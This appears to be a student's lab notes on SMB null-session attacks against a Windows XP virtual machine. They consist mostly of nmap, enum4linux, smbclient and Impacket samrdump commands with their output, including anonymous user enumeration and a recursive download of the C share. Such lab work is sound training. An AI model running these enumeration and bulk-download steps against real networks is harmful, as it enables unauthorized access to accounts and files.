

Labs Null Session

## Null session

```
└─# nmap -sn 192.168.99.100/24
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-12 22:44 +08
Nmap scan report for 192.168.99.162
Host is up (0.28s latency).
MAC Address: 00:50:56:8E:3C:AB (VMware)
Nmap scan report for 192.168.99.100                                         Host is up.
Nmap done: 256 IP addresses (2 hosts up) scanned in 13.43 seconds
┌──(root💀DESKTOP-61F9HO2)-[/mnt/c/Users/Chan]                              └─# nmap -sV 192.168.99.162                                                 Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-12 22:45 +08             Nmap scan report for 192.168.99.162                                         Host is up (4.4s latency).                                                  Not shown: 997 closed ports                                                 PORT    STATE SERVICE      VERSION
135/tcp open  msrpc        Microsoft Windows RPC                            139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Microsoft Windows XP microsoft-ds
MAC Address: 00:50:56:8E:3C:AB (VMware)
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp
                                                                            Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .                                                          Nmap done: 1 IP address (1 host up) scanned in 23.03 seconds
└─# nmblookup -A 192.168.99.162
Looking up status of 192.168.99.162                                                 ELS-WINXP       <00> -         B <ACTIVE>                                   WORKGROUP       <00> - <GROUP> B <ACTIVE>                                   ELS-WINXP       <20> -         B <ACTIVE>                                   WORKGROUP       <1e> - <GROUP> B <ACTIVE>                                   WORKGROUP       <1d> -         B <ACTIVE>                                   ..__MSBROWSE__. <01> - <GROUP> B <ACTIVE>                                                                                                               MAC Address = 00-50-56-8E-3C-AB

```

Have to add the photo first


```
└─$ enum4linux -A 192.168.99.162
Unknown option: A
Starting enum4linux v0.8.9 ( http://labs.portcullis.co.uk/application/enum4linux/ ) on Sun Aug 15 06:02:56 2021

 ========================== 
|    Target Information    |
 ========================== 
Target ........... 192.168.99.162
RID Range ........ 500-550,1000-1050
Username ......... ''
Password ......... ''
Known Usernames .. administrator, guest, krbtgt, domain admins, root, bin, none


 ====================================================== 
|    Enumerating Workgroup/Domain on 192.168.99.162    |
 ====================================================== 
[+] Got domain/workgroup name: WORKGROUP

 ============================================== 
|    Nbtstat Information for 192.168.99.162    |
 ============================================== 
Looking up status of 192.168.99.162
        ELS-WINXP       <00> -         B <ACTIVE>  Workstation Service
        WORKGROUP       <00> - <GROUP> B <ACTIVE>  Domain/Workgroup Name
        ELS-WINXP       <20> -         B <ACTIVE>  File Server Service
        WORKGROUP       <1e> - <GROUP> B <ACTIVE>  Browser Service Elections
        WORKGROUP       <1d> -         B <ACTIVE>  Master Browser
        ..__MSBROWSE__. <01> - <GROUP> B <ACTIVE>  Master Browser

        MAC Address = 00-50-56-A2-20-C3

 ======================================= 
|    Session Check on 192.168.99.162    |
 ======================================= 
[+] Server 192.168.99.162 allows sessions using username '', password ''

 ============================================= 
|    Getting domain SID for 192.168.99.162    |
 ============================================= 
Domain Name: WORKGROUP
Domain Sid: (NULL SID)
[+] Can't determine if host is part of domain or part of a workgroup

 ======================================== 
|    OS information on 192.168.99.162    |
 ======================================== 
Use of uninitialized value $os_info in concatenation (.) or string at ./enum4linux.pl line 464.
[+] Got OS info for 192.168.99.162 from smbclient: 
[+] Got OS info for 192.168.99.162 from srvinfo:
        192.168.99.162 Wk Sv NT PtB LMB     
        platform_id     :       500
        os version      :       5.1
        server type     :       0x51003

 =============================== 
|    Users on 192.168.99.162    |
 =============================== 
index: 0x1 RID: 0x1f4 acb: 0x00000210 Account: Administrator    Name: (null)    Desc: Built-in account for administering the computer/domain
index: 0x2 RID: 0x3eb acb: 0x00000210 Account: eLS      Name: (null)    Desc: (null)
index: 0x3 RID: 0x3ed acb: 0x00000210 Account: Frank    Name: Frank     Desc: (null)
index: 0x4 RID: 0x1f5 acb: 0x00000214 Account: Guest    Name: (null)    Desc: Built-in account for guest access to the computer/domain
index: 0x5 RID: 0x3e8 acb: 0x00000211 Account: HelpAssistant    Name: Remote Desktop Help Assistant Account       Desc: Account for Providing Remote Assistance
index: 0x6 RID: 0x3ec acb: 0x00000210 Account: netadmin Name: netadmin  Desc: (null)
index: 0x7 RID: 0x3ea acb: 0x00000211 Account: SUPPORT_388945a0 Name: CN=Microsoft Corporation,L=Redmond,S=Washington,C=US        Desc: This is a vendor's account for the Help and Support Service

user:[Administrator] rid:[0x1f4]
user:[eLS] rid:[0x3eb]
user:[Frank] rid:[0x3ed]
user:[Guest] rid:[0x1f5]
user:[HelpAssistant] rid:[0x3e8]
user:[netadmin] rid:[0x3ec]
user:[SUPPORT_388945a0] rid:[0x3ea]

 =========================================== 
|    Share Enumeration on 192.168.99.162    |
 =========================================== 
lpcfg_do_global_parameter: WARNING: The "client use spnego" option is deprecated
lpcfg_do_global_parameter: WARNING: The "client ntlmv2 auth" option is deprecated

        Sharename       Type      Comment
        ---------       ----      -------
        My Documents    Disk      
        IPC$            IPC       Remote IPC
        Frank           Disk      
        C               Disk      
        WorkSharing     Disk      
        FrankDocs       Disk      
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
Reconnecting with SMB1 for workgroup listing.

        Server               Comment
        ---------            -------
        ELS-WINXP            

        Workgroup            Master
        ---------            -------
        WORKGROUP            ELS-WINXP

[+] Attempting to map shares on 192.168.99.162
//192.168.99.162/IPC$   Mapping: OK     Listing: DENIED
//192.168.99.162/Frank  Mapping: OK     Listing: DENIED
//192.168.99.162/C      [E] Can't understand response:
lpcfg_do_global_parameter: WARNING: The "client use spnego" option is deprecated
lpcfg_do_global_parameter: WARNING: The "client ntlmv2 auth" option is deprecated
  AUTOEXEC.BAT                        A        0  Thu Feb 12 19:50:47 2015
  boot.ini                           HS      211  Thu Feb 12 19:46:17 2015
  CONFIG.SYS                          A        0  Thu Feb 12 19:50:47 2015
  Documents and Settings              D        0  Wed Feb 18 04:25:58 2015
  IO.SYS                           AHSR        0  Thu Feb 12 19:50:47 2015
  MSDOS.SYS                        AHSR        0  Thu Feb 12 19:50:47 2015
  NTDETECT.COM                     AHSR    47564  Tue Aug  3 13:08:34 2004
  ntldr                            AHSR   250032  Tue Aug  3 13:29:34 2004
  pagefile.sys                      AHS 805306368  Fri Aug 13 00:37:28 2021
  Program Files                      DR        0  Mon Oct  3 12:10:27 2016
  System Volume Information         DHS        0  Thu Feb 12 19:54:12 2015
  WINDOWS                             D        0  Mon Oct  3 12:12:49 2016

                785224 blocks of size 4096. 304616 blocks available
//192.168.99.162/WorkSharing    Mapping: OK, Listing: OK
//192.168.99.162/FrankDocs      Mapping: OK     Listing: DENIED
//192.168.99.162/ADMIN$ Mapping: DENIED, Listing: N/A
//192.168.99.162/C$     Mapping: DENIED, Listing: N/A

 ====================================================== 
|    Password Policy Information for 192.168.99.162    |
 ====================================================== 


[+] Attaching to 192.168.99.162 using a NULL share

[+] Trying protocol 139/SMB...

        [!] Protocol failed: Cannot request session (Called Name:192.168.99.162)

[+] Trying protocol 445/SMB...

[+] Found domain(s):

        [+] ELS-WINXP
        [+] Builtin

[+] Password Info for Domain: ELS-WINXP

        [+] Minimum password length: None
        [+] Password history length: None
        [+] Maximum password age: 42 days 22 hours 47 minutes 
        [+] Password Complexity Flags: 000000

                [+] Domain Refuse Password Change: 0
                [+] Domain Password Store Cleartext: 0
                [+] Domain Password Lockout Admins: 0
                [+] Domain Password No Clear Change: 0
                [+] Domain Password No Anon Change: 0
                [+] Domain Password Complex: 0

        [+] Minimum password age: None
        [+] Reset Account Lockout Counter: 30 minutes 
        [+] Locked Account Duration: 30 minutes 
        [+] Account Lockout Threshold: None
        [+] Forced Log off Time: Not Set


[+] Retieved partial password policy with rpcclient:

Password Complexity: Disabled
Minimum Password Length: 0


 ================================ 
|    Groups on 192.168.99.162    |
 ================================ 

[+] Getting builtin groups:
group:[Administrators] rid:[0x220]
group:[Backup Operators] rid:[0x227]
group:[Guests] rid:[0x222]
group:[Network Configuration Operators] rid:[0x22c]
group:[Power Users] rid:[0x223]
group:[Remote Desktop Users] rid:[0x22b]
group:[Replicator] rid:[0x228]
group:[Users] rid:[0x221]

[+] Getting builtin group memberships:
Group 'Users' (RID: 545) has member: Couldn't lookup SIDs
Group 'Administrators' (RID: 544) has member: Couldn't lookup SIDs
Group 'Guests' (RID: 546) has member: Couldn't lookup SIDs

[+] Getting local groups:
group:[HelpServicesGroup] rid:[0x3e9]

[+] Getting local group memberships:
Group 'HelpServicesGroup' (RID: 1001) has member: Couldn't lookup SIDs

[+] Getting domain groups:
group:[None] rid:[0x201]

[+] Getting domain group memberships:
Group 'None' (RID: 513) has member: ELS-WINXP\Administrator
Group 'None' (RID: 513) has member: ELS-WINXP\Guest
Group 'None' (RID: 513) has member: ELS-WINXP\HelpAssistant
Group 'None' (RID: 513) has member: ELS-WINXP\SUPPORT_388945a0
Group 'None' (RID: 513) has member: ELS-WINXP\eLS
Group 'None' (RID: 513) has member: ELS-WINXP\netadmin
Group 'None' (RID: 513) has member: ELS-WINXP\Frank

 ========================================================================= 
|    Users on 192.168.99.162 via RID cycling (RIDS: 500-550,1000-1050)    |
 ========================================================================= 
[E] Couldn't get SID: NT_STATUS_ACCESS_DENIED.  RID cycling not possible.
[I] Found new SID: S-1-5-32
[I] Found new SID: S-1-5-21-823518204-2025429265-839522115
[+] Enumerating users using SID S-1-5-21-823518204-2025429265-839522115 and logon username '', password ''
[+] Enumerating users using SID S-1-5-32 and logon username '', password ''

 =============================================== 
|    Getting printer info for 192.168.99.162    |
 =============================================== 
No printers returned.


enum4linux complete on Sun Aug 15 06:12:25 2021
─$ smbclient //192.168.99.162/IPC\$ -N          
lpcfg_do_global_parameter: WARNING: The "client use spnego" option is deprecated
lpcfg_do_global_parameter: WARNING: The "client ntlmv2 auth" option is deprecated
Try "help" to get a list of possible commands.
smb: \> ls
NT_STATUS_ACCESS_DENIED listing \*
smb: \> exit
```

```
└─$ smbclient //192.168.99.162/C        
lpcfg_do_global_parameter: WARNING: The "client use spnego" option is deprecated
lpcfg_do_global_parameter: WARNING: The "client ntlmv2 auth" option is deprecated
Enter WORKGROUP\kali's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  AUTOEXEC.BAT                        A        0  Thu Feb 12 19:50:47 2015
  boot.ini                           HS      211  Thu Feb 12 19:46:17 2015
  CONFIG.SYS                          A        0  Thu Feb 12 19:50:47 2015
  Documents and Settings              D        0  Wed Feb 18 04:25:58 2015
  IO.SYS                           AHSR        0  Thu Feb 12 19:50:47 2015
  MSDOS.SYS                        AHSR        0  Thu Feb 12 19:50:47 2015
  NTDETECT.COM                     AHSR    47564  Tue Aug  3 13:08:34 2004
  ntldr                            AHSR   250032  Tue Aug  3 13:29:34 2004
  pagefile.sys                      AHS 805306368  Fri Aug 13 00:37:28 2021
  Program Files                      DR        0  Mon Oct  3 12:10:27 2016
  System Volume Information         DHS        0  Thu Feb 12 19:54:12 2015
  WINDOWS                             D        0  Mon Oct  3 12:12:49 2016

                785224 blocks of size 4096. 304620 blocks available
smb: \> cd Documents and Settings\
cd \Documents\: NT_STATUS_OBJECT_NAME_NOT_FOUND
smb: \> ls
  AUTOEXEC.BAT                        A        0  Thu Feb 12 19:50:47 2015
  boot.ini                           HS      211  Thu Feb 12 19:46:17 2015
  CONFIG.SYS                          A        0  Thu Feb 12 19:50:47 2015
  Documents and Settings              D        0  Wed Feb 18 04:25:58 2015
  IO.SYS                           AHSR        0  Thu Feb 12 19:50:47 2015
  MSDOS.SYS                        AHSR        0  Thu Feb 12 19:50:47 2015
  NTDETECT.COM                     AHSR    47564  Tue Aug  3 13:08:34 2004
  ntldr                            AHSR   250032  Tue Aug  3 13:29:34 2004
  pagefile.sys                      AHS 805306368  Fri Aug 13 00:37:28 2021
  Program Files                      DR        0  Mon Oct  3 12:10:27 2016
  System Volume Information         DHS        0  Thu Feb 12 19:54:12 2015
  WINDOWS                             D        0  Mon Oct  3 12:12:49 2016

                785224 blocks of size 4096. 304620 blocks available
smb: \> cd "Documents and Settings\"
smb: \Documents and Settings\> ls
  .                                   D        0  Wed Feb 18 04:25:58 2015
  ..                                  D        0  Wed Feb 18 04:25:58 2015
  All Users                           D        0  Thu Feb 12 19:49:29 2015
  Default User                       DH        0  Thu Feb 12 19:50:51 2015
  eLS                                 D        0  Wed Feb 18 04:25:11 2015
  Frank                               D        0  Wed Feb 18 04:26:08 2015
  LocalService                      DHS        0  Thu Feb 12 19:54:07 2015
  NetworkService                    DHS        0  Thu Feb 12 19:52:46 2015

                785224 blocks of size 4096. 304620 blocks available
smb: \Documents and Settings\> cd Frank
smb: \Documents and Settings\Frank\> ls
NT_STATUS_ACCESS_DENIED listing \Documents and Settings\Frank\*
smb: \Documents and Settings\Frank\> cd ..
smb: \Documents and Settings\> cd eLS
smb: \Documents and Settings\eLS\> ls
NT_STATUS_ACCESS_DENIED listing \Documents and Settings\eLS\*
smb: \Documents and Settings\eLS\> cd ..
smb: \Documents and Settings\> cd ..
smb: \> ls
  AUTOEXEC.BAT                        A        0  Thu Feb 12 19:50:47 2015
  boot.ini                           HS      211  Thu Feb 12 19:46:17 2015
  CONFIG.SYS                          A        0  Thu Feb 12 19:50:47 2015
  Documents and Settings              D        0  Wed Feb 18 04:25:58 2015
  IO.SYS                           AHSR        0  Thu Feb 12 19:50:47 2015
  MSDOS.SYS                        AHSR        0  Thu Feb 12 19:50:47 2015
  NTDETECT.COM                     AHSR    47564  Tue Aug  3 13:08:34 2004
  ntldr                            AHSR   250032  Tue Aug  3 13:29:34 2004
  pagefile.sys                      AHS 805306368  Fri Aug 13 00:37:28 2021
  Program Files                      DR        0  Mon Oct  3 12:10:27 2016
  System Volume Information         DHS        0  Thu Feb 12 19:54:12 2015
  WINDOWS                             D        0  Mon Oct  3 12:12:49 2016

                785224 blocks of size 4096. 304620 blocks available
smb: \> cd WINDOWS
smb: \WINDOWS\> ls
NT_STATUS_ACCESS_DENIED listing \WINDOWS\*
smb: \WINDOWS\> cd ..
smb: \> cd Program\ Files
cd \Program\: NT_STATUS_OBJECT_NAME_NOT_FOUND
smb: \> cd "Program Files"
smb: \Program Files\> ls
NT_STATUS_ACCESS_DENIED listing \Program Files\*
smb: \Program Files\> cd ..
smb: \> cd "Documents and Settings"
smb: \Documents and Settings\> ls
  .                                   D        0  Wed Feb 18 04:25:58 2015
  ..                                  D        0  Wed Feb 18 04:25:58 2015
  All Users                           D        0  Thu Feb 12 19:49:29 2015
  Default User                       DH        0  Thu Feb 12 19:50:51 2015
  eLS                                 D        0  Wed Feb 18 04:25:11 2015
  Frank                               D        0  Wed Feb 18 04:26:08 2015
  LocalService                      DHS        0  Thu Feb 12 19:54:07 2015
  NetworkService                    DHS        0  Thu Feb 12 19:52:46 2015

                785224 blocks of size 4096. 304618 blocks available
smb: \Documents and Settings\> cd "All Users"
smb: \Documents and Settings\All Users\> ls
  .                                   D        0  Thu Feb 12 19:49:29 2015
  ..                                  D        0  Thu Feb 12 19:49:29 2015
  Application Data                  DHR        0  Thu Feb 12 19:57:30 2015
  Desktop                             D        0  Thu Feb 12 11:40:51 2015
  Documents                          DR        0  Thu Feb 12 19:48:06 2015
  DRM                               DHS        0  Thu Feb 12 19:50:32 2015
  Favorites                           D        0  Thu Feb 12 11:40:51 2015
  Start Menu                         DR        0  Thu Feb 12 19:52:15 2015
  Templates                          DH        0  Thu Feb 12 11:40:51 2015

                785224 blocks of size 4096. 304618 blocks available
smb: \Documents and Settings\All Users\> find
find: command not found
smb: \Documents and Settings\All Users\> help
?              allinfo        altname        archive        backup         
blocksize      cancel         case_sensitive cd             chmod          
chown          close          del            deltree        dir            
du             echo           exit           get            getfacl        
geteas         hardlink       help           history        iosize         
lcd            link           lock           lowercase      ls             
l              mask           md             mget           mkdir          
more           mput           newer          notify         open           
posix          posix_encrypt  posix_open     posix_mkdir    posix_rmdir    
posix_unlink   posix_whoami   print          prompt         put            
pwd            q              queue          quit           readlink       
rd             recurse        reget          rename         reput          
rm             rmdir          showacls       setea          setmode        
scopy          stat           symlink        tar            tarmode        
timeout        translate      unlock         volume         vuid           
wdel           logon          listconnect    showconnect    tcon           
tdis           tid            utimes         logoff         ..             
!              
smb: \Documents and Settings\All Users\> 

```

```
┌──(kali㉿kali)-[~]
└─$ locate samrdump.py                                                        1 ⨯
/usr/share/doc/python3-impacket/examples/samrdump.py
                                                                                  
┌──(kali㉿kali)-[~]
└─$ /usr/share/doc/python3-impacket/examples/samrdump.py 192.168.99.162
Traceback (most recent call last):
  File "/usr/share/doc/python3-impacket/examples/samrdump.py", line 24, in <module>
    from impacket.examples import logger
ImportError: No module named impacket.examples
                                                                                  
┌──(kali㉿kali)-[~]
└─$ python3 /usr/share/doc/python3-impacket/examples/samrdump.py 192.168.99.162
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Retrieving endpoint list from 192.168.99.162
Found domain(s):
 . ELS-WINXP
 . Builtin
[*] Looking up users in domain ELS-WINXP
Found user: Administrator, uid = 500
Found user: eLS, uid = 1003
Found user: Frank, uid = 1005
Found user: Guest, uid = 501
Found user: HelpAssistant, uid = 1000
Found user: netadmin, uid = 1004
Found user: SUPPORT_388945a0, uid = 1002
Administrator (500)/FullName: 
Administrator (500)/UserComment: 
Administrator (500)/PrimaryGroupId: 513
Administrator (500)/BadPasswordCount: 0
Administrator (500)/LogonCount: 0
Administrator (500)/PasswordLastSet: 2015-02-12 11:46:10.203125
Administrator (500)/PasswordDoesNotExpire: True
Administrator (500)/AccountIsDisabled: False
Administrator (500)/ScriptPath: 
eLS (1003)/FullName: 
eLS (1003)/UserComment: 
eLS (1003)/PrimaryGroupId: 513
eLS (1003)/BadPasswordCount: 0
eLS (1003)/LogonCount: 20
eLS (1003)/PasswordLastSet: 2015-02-12 19:55:12
eLS (1003)/PasswordDoesNotExpire: True
eLS (1003)/AccountIsDisabled: False
eLS (1003)/ScriptPath: 
Frank (1005)/FullName: Frank
Frank (1005)/UserComment: 
Frank (1005)/PrimaryGroupId: 513
Frank (1005)/BadPasswordCount: 0
Frank (1005)/LogonCount: 2
Frank (1005)/PasswordLastSet: 2015-02-18 04:24:31.312500
Frank (1005)/PasswordDoesNotExpire: True
Frank (1005)/AccountIsDisabled: False
Frank (1005)/ScriptPath: 
Guest (501)/FullName: 
Guest (501)/UserComment: 
Guest (501)/PrimaryGroupId: 513
Guest (501)/BadPasswordCount: 0
Guest (501)/LogonCount: 0
Guest (501)/PasswordLastSet: <never>
Guest (501)/PasswordDoesNotExpire: True
Guest (501)/AccountIsDisabled: False
Guest (501)/ScriptPath: 
HelpAssistant (1000)/FullName: Remote Desktop Help Assistant Account
HelpAssistant (1000)/UserComment: 
HelpAssistant (1000)/PrimaryGroupId: 513
HelpAssistant (1000)/BadPasswordCount: 0
HelpAssistant (1000)/LogonCount: 0
HelpAssistant (1000)/PasswordLastSet: 2015-02-12 19:48:04.953000
HelpAssistant (1000)/PasswordDoesNotExpire: True
HelpAssistant (1000)/AccountIsDisabled: True
HelpAssistant (1000)/ScriptPath: 
netadmin (1004)/FullName: netadmin
netadmin (1004)/UserComment: 
netadmin (1004)/PrimaryGroupId: 513
netadmin (1004)/BadPasswordCount: 0
netadmin (1004)/LogonCount: 0
netadmin (1004)/PasswordLastSet: 2015-02-18 04:22:22.296875
netadmin (1004)/PasswordDoesNotExpire: True
netadmin (1004)/AccountIsDisabled: False
netadmin (1004)/ScriptPath: 
SUPPORT_388945a0 (1002)/FullName: CN=Microsoft Corporation,L=Redmond,S=Washington,C=US
SUPPORT_388945a0 (1002)/UserComment: 
SUPPORT_388945a0 (1002)/PrimaryGroupId: 513
SUPPORT_388945a0 (1002)/BadPasswordCount: 0
SUPPORT_388945a0 (1002)/LogonCount: 0
SUPPORT_388945a0 (1002)/PasswordLastSet: 2015-02-12 19:49:58.374875
SUPPORT_388945a0 (1002)/PasswordDoesNotExpire: True
SUPPORT_388945a0 (1002)/AccountIsDisabled: True
SUPPORT_388945a0 (1002)/ScriptPath: 
[*] Received 7 entries.

```

Downloading

```
──(kali㉿kali)-[~]
└─$ smbclient //192.168.99.162/C -N
lpcfg_do_global_parameter: WARNING: The "client use spnego" option is deprecated
lpcfg_do_global_parameter: WARNING: The "client ntlmv2 auth" option is deprecated
Try "help" to get a list of possible commands.
smb: \> mask ""
recurse ON
prompt OFF
cd '/'                 
lcd '/tmp'                  
mget *
smb: \> mask ""
smb: \> recurse ON
smb: \> prompt OFF
smb: \> cd '/'
cd \'\'\: NT_STATUS_OBJECT_PATH_NOT_FOUND
smb: \> cd '\\'
cd \'\'\: NT_STATUS_OBJECT_PATH_NOT_FOUND
smb: \> cd '\'
cd \'\'\: NT_STATUS_OBJECT_PATH_NOT_FOUND
smb: \> lcd '/tmp'
chdir to '/tmp' failed (No such file or directory)
smb: \> lcd /tmp
smb: \> cd /
smb: \> mget *

```
```
──(kali㉿kali)-[/tmp]
└─$ ls -R                                                                     1 ⨯
.:
 AUTOEXEC.BAT
 CONFIG.SYS
'Documents and Settings'
 IO.SYS
 MSDOS.SYS
'Program Files'
 ssh-ptb6IupT9yxd
 systemd-private-41a0ff64ad634498a3144bb1d96f3784-colord.service-Ahau3g
 systemd-private-41a0ff64ad634498a3144bb1d96f3784-haveged.service-qxcCei
 systemd-private-41a0ff64ad634498a3144bb1d96f3784-ModemManager.service-qWsLff
 systemd-private-41a0ff64ad634498a3144bb1d96f3784-systemd-logind.service-FzsZTi
 systemd-private-41a0ff64ad634498a3144bb1d96f3784-upower.service-wswWvi
'System Volume Information'
 WINDOWS

'./Documents and Settings':
'All Users'  'Default User'   eLS   Frank   LocalService   NetworkService

'./Documents and Settings/All Users':
'Application Data'   Documents   Favorites     Templates
 Desktop             DRM        'Start Menu'

'./Documents and Settings/All Users/Application Data':

'./Documents and Settings/All Users/Desktop':

'./Documents and Settings/All Users/Documents':

'./Documents and Settings/All Users/DRM':

'./Documents and Settings/All Users/Favorites':

'./Documents and Settings/All Users/Start Menu':
 desktop.ini  'Set Program Access and Defaults.lnk'  'Windows Update.lnk'
 Programs     'Windows Catalog.lnk'

'./Documents and Settings/All Users/Start Menu/Programs':
 Accessories             Games     VMware
'Administrative Tools'   MSN.lnk  'Windows Messenger.lnk'
 desktop.ini             Startup  'Windows Movie Maker.lnk'

'./Documents and Settings/All Users/Start Menu/Programs/Accessories':
 Accessibility    Communications   Entertainment  'System Tools'
 Calculator.lnk   desktop.ini      Paint.lnk       WordPad.lnk

'./Documents and Settings/All Users/Start Menu/Programs/Accessories/Accessibility':
'Accessibility Wizard.lnk'   desktop.ini

'./Documents and Settings/All Users/Start Menu/Programs/Accessories/Communications':
 desktop.ini                'New Connection Wizard.lnk'
 HyperTerminal.lnk          'Remote Desktop Connection.lnk'
'Network Connections.lnk'   'Wireless Network Setup Wizard.lnk'
'Network Setup Wizard.lnk'

'./Documents and Settings/All Users/Start Menu/Programs/Accessories/Entertainment':
 desktop.ini  'Sound Recorder.lnk'  'Volume Control.lnk'

'./Documents and Settings/All Users/Start Menu/Programs/Accessories/System Tools':
 Backup.lnk              'Files and Settings Transfer Wizard.lnk'
'Character Map.lnk'      'Scheduled Tasks.lnk'
 desktop.ini             'Security Center.lnk'
'Disk Cleanup.lnk'       'System Information.lnk'
'Disk Defragmenter.lnk'  'System Restore.lnk'

'./Documents and Settings/All Users/Start Menu/Programs/Administrative Tools':
'Component Services.lnk'    desktop.ini                  Performance.lnk
'Computer Management.lnk'  'Event Viewer.lnk'            Services.lnk
'Data Sources (ODBC).lnk'  'Local Security Policy.lnk'

'./Documents and Settings/All Users/Start Menu/Programs/Games':
 desktop.ini               'Internet Checkers.lnk'   Minesweeper.lnk
 Freecell.lnk              'Internet Hearts.lnk'     Pinball.lnk
 Hearts.lnk                'Internet Reversi.lnk'    Solitaire.lnk
'Internet Backgammon.lnk'  'Internet Spades.lnk'    'Spider Solitaire.lnk'

'./Documents and Settings/All Users/Start Menu/Programs/Startup':
desktop.ini

'./Documents and Settings/All Users/Start Menu/Programs/VMware':
'VMware Tools'

'./Documents and Settings/All Users/Start Menu/Programs/VMware/VMware Tools':
'start VM Statistics Logging.lnk'

'./Documents and Settings/All Users/Templates':

'./Documents and Settings/Default User':
'Application Data'   Favorites         NetHood      Recent        Templates
 Cookies            'Local Settings'   NTUSER.DAT   SendTo
 Desktop            'My Documents'     PrintHood   'Start Menu'

'./Documents and Settings/Default User/Application Data':
desktop.ini  Microsoft

'./Documents and Settings/Default User/Application Data/Microsoft':
'Internet Explorer'  'Media Player'   SystemCertificates

'./Documents and Settings/Default User/Application Data/Microsoft/Internet Explorer':
brndlog.bak  brndlog.txt

'./Documents and Settings/Default User/Application Data/Microsoft/Media Player':

'./Documents and Settings/Default User/Application Data/Microsoft/SystemCertificates':
My

'./Documents and Settings/Default User/Application Data/Microsoft/SystemCertificates/My':
Certificates  CRLs  CTLs

'./Documents and Settings/Default User/Application Data/Microsoft/SystemCertificates/My/Certificates':

'./Documents and Settings/Default User/Application Data/Microsoft/SystemCertificates/My/CRLs':

'./Documents and Settings/Default User/Application Data/Microsoft/SystemCertificates/My/CTLs':

'./Documents and Settings/Default User/Cookies':
index.dat

'./Documents and Settings/Default User/Desktop':

'./Documents and Settings/Default User/Favorites':

'./Documents and Settings/Default User/Local Settings':
'Application Data'   desktop.ini   History   Temp  'Temporary Internet Files'

'./Documents and Settings/Default User/Local Settings/Application Data':
Microsoft

'./Documents and Settings/Default User/Local Settings/Application Data/Microsoft':
'Media Player'  'Windows Media'

'./Documents and Settings/Default User/Local Settings/Application Data/Microsoft/Media Player':
CurrentDatabase_59R.wmdb

'./Documents and Settings/Default User/Local Settings/Application Data/Microsoft/Windows Media':
9.0

'./Documents and Settings/Default User/Local Settings/Application Data/Microsoft/Windows Media/9.0':
WMSDKNS.DTD  WMSDKNS.XML

'./Documents and Settings/Default User/Local Settings/History':
desktop.ini  History.IE5

'./Documents and Settings/Default User/Local Settings/History/History.IE5':
desktop.ini  index.dat

'./Documents and Settings/Default User/Local Settings/Temp':

'./Documents and Settings/Default User/Local Settings/Temporary Internet Files':
Content.IE5  desktop.ini

'./Documents and Settings/Default User/Local Settings/Temporary Internet Files/Content.IE5':
CZCD09UF  desktop.ini  index.dat  LP3ZPQ7Z  NRO1XXXC  Y7C7Q9OB

'./Documents and Settings/Default User/Local Settings/Temporary Internet Files/Content.IE5/CZCD09UF':
desktop.ini

'./Documents and Settings/Default User/Local Settings/Temporary Internet Files/Content.IE5/LP3ZPQ7Z':
desktop.ini

'./Documents and Settings/Default User/Local Settings/Temporary Internet Files/Content.IE5/NRO1XXXC':
desktop.ini

'./Documents and Settings/Default User/Local Settings/Temporary Internet Files/Content.IE5/Y7C7Q9OB':
desktop.ini

'./Documents and Settings/Default User/My Documents':

'./Documents and Settings/Default User/NetHood':

'./Documents and Settings/Default User/PrintHood':

'./Documents and Settings/Default User/Recent':

'./Documents and Settings/Default User/SendTo':
'Compressed (zipped) Folder.ZFSendToTarget'   desktop.ini
'Desktop (create shortcut).DeskLink'         'Mail Recipient.MAPIMail'

'./Documents and Settings/Default User/Start Menu':
desktop.ini  Programs

'./Documents and Settings/Default User/Start Menu/Programs':
 Accessories  'Remote Assistance.lnk'  'Windows Media Player.lnk'
 desktop.ini   Startup

'./Documents and Settings/Default User/Start Menu/Programs/Accessories':
 Accessibility         Entertainment                       Synchronize.lnk
'Command Prompt.lnk'   Notepad.lnk                        'Tour Windows XP.lnk'
 desktop.ini          'Program Compatibility Wizard.lnk'  'Windows Explorer.lnk'

'./Documents and Settings/Default User/Start Menu/Programs/Accessories/Accessibility':
 desktop.ini     Narrator.lnk             'Utility Manager.lnk'
 Magnifier.lnk  'On-Screen Keyboard.lnk'

'./Documents and Settings/Default User/Start Menu/Programs/Accessories/Entertainment':
 desktop.ini  'Windows Media Player.lnk'

'./Documents and Settings/Default User/Start Menu/Programs/Startup':
desktop.ini

'./Documents and Settings/Default User/Templates':
amipro.sam  excel.xls  powerpnt.ppt  quattro.wb2  winword2.doc  wordpfct.wpd
excel4.xls  lotus.wk4  presenta.shw  sndrec.wav   winword.doc   wordpfct.wpg

'./Documents and Settings/eLS':

'./Documents and Settings/Frank':

'./Documents and Settings/LocalService':

'./Documents and Settings/NetworkService':

'./Program Files':

./ssh-ptb6IupT9yxd:
agent.848
ls: cannot open directory './systemd-private-41a0ff64ad634498a3144bb1d96f3784-colord.service-Ahau3g': Permission denied
ls: cannot open directory './systemd-private-41a0ff64ad634498a3144bb1d96f3784-haveged.service-qxcCei': Permission denied
ls: cannot open directory './systemd-private-41a0ff64ad634498a3144bb1d96f3784-ModemManager.service-qWsLff': Permission denied
ls: cannot open directory './systemd-private-41a0ff64ad634498a3144bb1d96f3784-systemd-logind.service-FzsZTi': Permission denied
ls: cannot open directory './systemd-private-41a0ff64ad634498a3144bb1d96f3784-upower.service-wswWvi': Permission denied

'./System Volume Information':

./WINDOWS:
                                                                                  
┌──(kali㉿kali)-[/tmp]
└─$                                                             
```


```
┌──(kali㉿kali)-[~]
└─$ smbclient //192.168.99.162/WorkSharing -N
lpcfg_do_global_parameter: WARNING: The "client use spnego" option is dep
lpcfg_do_global_parameter: WARNING: The "client ntlmv2 auth" option is de
Try "help" to get a list of possible commands.
smb: \> ls
